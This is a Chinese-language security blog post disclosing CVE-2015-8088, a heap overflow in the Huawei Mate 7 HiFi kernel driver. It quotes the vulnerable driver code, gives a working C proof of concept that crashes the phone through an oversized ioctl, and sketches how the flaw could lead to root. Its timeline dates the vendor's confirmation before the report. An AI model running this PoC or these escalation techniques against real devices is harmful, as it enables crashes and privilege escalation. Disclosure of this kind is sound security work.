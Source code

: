 ```yaml
---
layout: post
title: "CVE-2015-8088: 华为智能手机HiFi驱动堆溢出"
date: 2015-12-12 00:50:03
summary: "在华为Mate 7手机中，/dev/hifi_misc 模块允许在用户态下修改内核态的内存数据，它可能导致系统崩溃或者权限提升。"
categories: system-security
---
```



### Description
`/dev/hifi_misc` 是用户空间到内核空间中Hisi 芯片的一个接口，该接口和Hifi相关。我们看到`drivers/hisi/hifidsp/hifi_lpp.c`中的代码，攻击者可以在用户空间下，可以使用`HIFI_MISC_IOCTL_WRITE_PARAMS`参数，并通过调用`ioctl()`执行到该代码路径：
{% highlight html %}
static long hifi_misc_ioctl(struct file *fd, unsigned int cmd, unsigned long arg)
{
[...]
	switch(cmd) {
		[...]
		case HIFI_MISC_IOCTL_WRITE_PARAMS : /* write algo param to hifi*/
			ret = hifi_dsp_write_param(arg);
		        break;
		[...]
	}
[...]
}
{% endhighlight %}
之后，`hifi_dsp_write_param()`函数被调用，它的参数来自用户空间：

{% highlight html %}
int hifi_dsp_write_param(unsigned long arg)
{
	int ret = OK;
	phys_addr_t hifi_param_phy_addr = 0;
	void*		hifi_param_vir_addr = NULL;
	CARM_HIFI_DYN_ADDR_SHARE_STRU* hifi_addr = NULL;
	struct misc_io_sync_param para;
[...]
	if (copy_from_user(&para, (void*)arg, sizeof(struct misc_io_sync_param))) {  // arg --> para
		loge("copy_from_user fail.\n");
		ret = ERROR;
		goto error1;
	}
[...]
	hifi_param_vir_addr = (unsigned char*)ioremap(hifi_param_phy_addr, SIZE_PARAM_PRIV); // heap alloc
	if (NULL == hifi_param_vir_addr) {
		loge("hifi_param_vir_addr ioremap fail\n");
		ret = ERROR;
		goto error2;
	}
[...]
	ret = copy_from_user(hifi_param_vir_addr, para.para_in, para.para_size_in); // heap overflow
	if ( ret != 0) {
		loge("copy data to hifi error! ret = %d", ret);
	}
[...]
}
{% endhighlight %}

参数`arg`是一个结构体指针，指向用户空间的内存。`hifi_dsp_write_param()`函数初始化之后，使用`copy_from_user()`将用户空间的数据`(arg)`拷贝到内核空间中`(para)`。注意，它没做任何验证，就将用户空间下的所用的成员变量拷贝到内核空间中。`para`结构如下：

{% highlight html %}
struct misc_io_sync_param {
	void *                  para_in;          
	unsigned int            para_size_in;      
	void *                  para_out;          
	unsigned int            para_size_out;  
};
{% endhighlight %}
紧接着，又调用了`copy_from_user(hifi_param_vir_addr,
  para.para_in, para.para_size_in)`

- `hifi_param_vir_addr`指向一块由`ioremap()`分配的堆内存，这块堆内存的大小为`SIZE_PARAM_PRIV`(200 * 1024)字节。
- `para.para_in`指针由用户空间控制，它是存储数据的内存。
- `para.para_size_in`是一个`unsigned int`由用户空间控制，它是`para.para_in`的大小。

然而，代码中没有对`para.para_in`和`para.para_size_in`进行验证，如果`para.para_size_in`大于`200 * 1024`,例如`300 * 1024`，将产生一个堆溢出。PoC如下：

{% highlight html %}
/*
 *
 *  HuaWei Mate7 hifi driver Poc
 *
 *  Writen by pray3r<pray3r.z@gmail.com>
 *
 */

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>

#define HIFI_MISC_IOCTL_WRITE_PARAMS    _IOWR('A', 0x75, struct misc_io_sync_param)

struct misc_io_sync_param {
	void *                  para_in;           
	unsigned int            para_size_in;       
	void *                  para_out;           
	unsigned int            para_size_out;   
};

int main(int arg, char **argv)
{
	int fd; 
	void *in = malloc(300 * 1024);
	void *out = malloc(100);
	struct misc_io_sync_param poc;

	poc.para_in = in;
	poc.para_size_in = 300 * 1024;
	poc.para_out = out;
	poc.para_size_out = 100;

	fd = open("/dev/hifi_misc", O_RDWR);

	ioctl(fd, HIFI_MISC_IOCTL_WRITE_PARAMS, &poc);

	free(in);
	free(out);

	return 0;
}
{% endhighlight %}

执行这个PoC将导致Mate 7崩溃，请注意，该PoC至少需要在audio或system用户下执行，因为`/dev/hifi_misc`在audio和system用户下才有可写的权限。

### Impact
第一，设置一个很大的值给`para.para_size`，手机会崩溃；

第二，如果`para.para_in`指向一个内核结构，使用`heap fengshui`技术可能被利用；

第三，可以使用类似堆喷射`thread_info`，攻击者可能获取到手机的root权限。

`/dev/hifi_misc`只有至少在audio或system用户下才有可写权限，所以攻击者想利用该漏洞获取到root权限，可能需要先利用其它漏洞获取到audio或system权限，再去获取root权限。

该利用方式类似于之前Keen Team发布的Mate 7的root工具的利用方式：   
1. [http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-414174.htm](http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-414174.htm)   
2. [http://forum.xda-developers.com/mate-7/general/wip-mate-7-root-bl-unlock-t2995086](http://forum.xda-developers.com/mate-7/general/wip-mate-7-root-bl-unlock-t2995086)   

### Affected

{% highlight html %}
Model   : HUAWEI MT7-TL10
Version : MT7-TL10V100R001CHNC00B133
Android : 4.4.2
Kernel  : 3.10.30-00015-g049a08f
{% endhighlight %}
  其它类似的华为手机可能也受影响。

### Patch

参考华为官网的信息：   
 [http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-460347.htm](http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-460347.htm)

### TimeLine

 Sep 28 2015 - Report sent to Huawei PSIRT   
 Sep 10 2015 - Huawei confirmed the security issues   
 Nov 04 2015 - Huawei fixed and public the security issues   
 Nov 09 2015 - Update CVE number   
